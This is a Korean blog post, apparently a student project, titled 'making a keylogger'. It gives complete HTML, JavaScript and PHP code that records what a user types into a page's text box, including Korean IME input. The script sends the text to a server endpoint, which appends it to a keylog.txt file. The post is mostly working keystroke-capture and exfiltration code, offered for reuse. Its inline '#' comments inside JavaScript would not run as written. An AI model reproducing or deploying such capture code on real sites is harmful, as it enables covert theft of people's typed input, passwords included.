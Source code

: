 ```yaml
---
layout: single
title:  "4주차 키로거 만들기"
categories: project
typora-root-url: ..\
author_profile: false
---
```




<br>

# <span style="background:#000000; color:#ffffff">1.키로거 만들기</span>

<br>

키로거란? 사용자가 작성하는 글을 기록하고 전송하는 것을 말합니다. 즉 사용자의 입력의 데이터를 가져오는 것입니다.

키로거를 만든 것을 보여드리면서 코드를 설명하겠습니다.

<img src="/images/2024-05-14-3/image-20240514033456490.png" alt="image-20240514033456490" style=" zoom: 50%;" /><img src="/images/2024-05-14-3/image-20240514034539596.png" alt="image-20240514034539596" style="zoom:50%;" />

▶ 글을 작성하니, 작성한 글이 txt파일에 저장되는 모습!

## 1.1 keylog.html

<br>

저는  기본적으로 작성할 텍스트 박스를 만들었고, 텍스트의 내용을 밑에 표시하고 싶었기 때문에 pre를 작성해두었습니다.  
필요에 따라 밑에 표시하는 구문은 지우셔도 무방합니다.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>keylogger</title>
</head>
<body>
    <h1>keylogger</h1>
    <input type="text" id="input" placeholder="입력할 글자를 넣어주세요">
    <pre id="log"></pre>
</body>
<script src="keylogger.js"></script>
</html>
```



## 1.2 keylogger.js

<br>▶<span style='font-weight:bold; font-size:20px'>DOMContentLoaded로 구성 및 변수지정</span>

```javascript
document.addEventListener('DOMContentLoaded', () => {		#DOM이 완료되고, 초기에 스크립트를 실행하기 위함.
    const input = document.getElementById('input');			# 작성할곳	
    const log = document.getElementById('log');				# 작성한 것이 밑에 나타날 곳	
    let composing = false;									# IME 입력 중인지 나타내는 플래그(한글작성을 위해)
    let buffer = ''; 										# 데이터를 임시 저장(한글의 문장열을 한꺼번에 보내려고)
    let timeoutId = null; 									# 디바운싱을 위한 타임아웃 ID(불필요한 텍스트를피하려고)
```



▶<span style='font-weight:bold; font-size:20px'>IME 입력으로 한글적기 및 밑에 텍스트 내용 표시하기</span>

```javascript
 #한글을 작성할 때 
 #(영어가 아닌 한글은 자음가 모음의 결합된 형태이기 때문에 composing을 이용하여 문자조합의 시작과 끝을 나누어서 봐야한다.)

	input.addEventListener('compositionstart', () => {			#입력을 시작, true는 입력중이라는 뜻.
        composing = true;
    });

    input.addEventListener('compositionend', (event) => {		#입력 끝, false는 입력을 끝냈다는 뜻.
        composing = false;										#한글 작성을 끝내고,buffer와log에 데이터를 추가
        buffer += event.data || '';
        log.textContent += event.data || '';
        sendData(buffer); 										# buffer에 저장된 텍스트를 서버로 전송
        buffer = ''; 											# buffer 초기화
    });
-----------------------------------------------------------------------------------------------------------
    #영어를 작성하거나 기타 다른 것을 작성할 때(밑에 log 작성안할시,if문에 buffer 데이터추가하고 서버에 보내도 됌)

    input.addEventListener('input', (event) => {					
        if (!composing) {											# 한글을 입력하지 않고 다른것을 작성할때
            if (event.inputType === "deleteContentBackward") {		# backspace키
                log.textContent = log.textContent.slice(0, -1);		# slice는 추출해서 새로운 문자열 만드는것
            } else {												 (인덱스0, 인덱스-1)이므로 마지막단어빼고 만듬
                log.textContent += event.data || ''; 				# 나머지는 영어라서 log에 데이터 추가
            }
            debounceSendData(log.textContent); 						# 디바운싱을 적용하여 서버에 전송
        }															 시간 차를 이용해서 텍스트를 모아서 한꺼번에 																		 처리하여, log에 불필요한 텍스트가 생기는 것을 																	  방지한다.
    });

```



▶<span style='font-weight:bold; font-size:20px'>데이터 전송하기 및 서버 응답 상태 확인하기</span>

```javascript
	###글 작성시, 바로 서버에 보내면 불필요한 글까지 전송된다. 하여 시간 차를 두어 수정할 시간을 확보하기 위함이다.### 
    
    function debounceSendData(text) {
        clearTimeout(timeoutId);			#이전에 설정된 타임을 취소.
        timeoutId = setTimeout(() => {		#새로운 타임 설정, 2초후에 서버로 text를 보냄.
            sendData(text); 
        }, 2000); 
    }

    function sendData(text) {
        var xhr = new XMLHttpRequest();			#웹페이지가 로딩이 끝난뒤에도 서버에 데이터를 주고 받을수 있음.
        xhr.open("POST", "keylog.php", true);	#요청을 설정. (메서드, 경로, 비동기(true),동기(false))
        										동기: 데이터베이스 검색후, 다음코드 진행하는 것처럼 한작업 끝나고 진행
                                                비동기:서버에 데이터주고받을때 처럼 바로 요청에 응답처리
        
                                                
        ###http요청헤더 content-Type 헤더에서 보낸 데이터가 url을 인코딩, 문자 인코딩이 utf-8 지정###   
         
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');

        
        ###http요청이 완료되었을 때, http상태가 200(좋음)인지 아닌지에 따라 출력하기###
        
        xhr.onload = function() {
            if (xhr.status === 200) {
                console.log('Data sent successfully:', xhr.responseText);
            } else {
                console.log('Failed to send data:', xhr.status);
            }
        };

        xhr.send(`keys=${encodeURIComponent(text)}`); 			#데이터 인코딩해서 전송
    }
});

```



## 1.3 keylog.php

<br>

▶<span style='font-weight:bold; font-size:20px'>데이터 txt 파일로 보내기</span>

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $keys = $_POST['keys'] ?? '';                                   	# key가 존재하지 않거나 null값이면 ''
    file_put_contents("keylog.txt", $keys . PHP_EOL, FILE_APPEND | LOCK_EX); 
}	#PHP_EOL:줄바꿈 추가#  #FILE_APPEND:기존내용유지,뒤에 계속내용추가# #LOCK_EX:다른프로세스가 파일을 변경할수 없게함#
```





